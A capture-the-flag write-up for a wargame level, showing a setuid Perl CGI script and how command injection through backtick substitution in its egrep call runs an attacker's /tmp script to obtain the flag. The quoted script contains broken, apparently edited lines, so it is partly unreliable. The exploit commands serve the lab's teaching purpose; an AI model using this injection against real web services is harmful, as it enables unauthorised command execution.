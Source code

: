 # Level12
## substitution commands linux
```bash
ls -la
# Output, Another perl script, gonna read it
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
cat level12.pl
```

```pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; // y
  $xx = $_[0]; // x
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  $xx="\" /tmp/xd ; echo hell > ls"\"
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")))
```
```bash
curl localhost:4646?x=token\&y=/tmp/xd
--> n(t(x=token, y=/tmp/xd))
--> xx = TOKEN
--> egrep "^TOKEN" /tmp/xd 2>&1
--> egrep: /tmp/xd: No such file or directory
--> egrep, /tmp/xd
--> /tmp/xd == y
```
We can inject our command on this one `egrep "^$xx" /tmp/xd 2>&1` using substitution commands linux<br>
We have to be carefull because the prgram does replace the lower case with the upper case, in this case<br>
we are gonona change this behavior by using /\*/SCRIPT<br>
In Linux you can access files within directories just by doing this /\*/\*/\*/your_file
```bash
echo "getflag > /tmp/flag" > /tmp/SCRIPT
chmod +x /tmp/SCRIPT
curl localhost:4646?x='`/*/SCRIPT`'
cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

[perl_regex](https://perldoc.perl.org/perlre)
